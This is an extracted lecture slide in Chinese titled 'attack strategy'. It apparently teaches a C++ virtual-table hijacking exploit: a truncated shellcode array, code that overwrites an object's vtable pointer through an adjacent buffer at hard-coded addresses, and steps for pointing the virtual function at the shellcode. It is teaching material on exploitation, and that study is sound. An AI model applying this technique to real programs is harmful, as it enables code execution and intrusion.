

攻击策略

| char shellcode[] =“xFC\x68\x6A….. \xA4\x8B\x42\x00”; class Failwest{ public: char buf[200]; virtual void test(void) { cout<<"Class Vtable::test()"<<endl; }; };  Failwest overflow, \*p;  void main(void){ char \*p\_vtable; p\_vtable = overflow.buf – 4; …… p\_vtable[0] = 0x54; p\_vtable[1] = 0x8c; p\_vtable[2] = 0x42; p\_vtable[3] = 0x00; ……. } |
| --- |
充分利用overflow.buf这个缓冲区：overflow.buf的地址为0x00428ba4 ，其倒数第四个字节开始地址为0x00428c54。Strlen里最后一个字符是0x00，需要加上。

1. 修改虚表地址：将对象overflow的虚表地址修改为数组shellcode的倒数第四个字节开始地址。
2. 修改虚函数指针：修改数组shellcode最后4位（虚表）来指向overflow.buf的内存地址，即让虚函数指针指向保存shellcode的overflow.buf区域。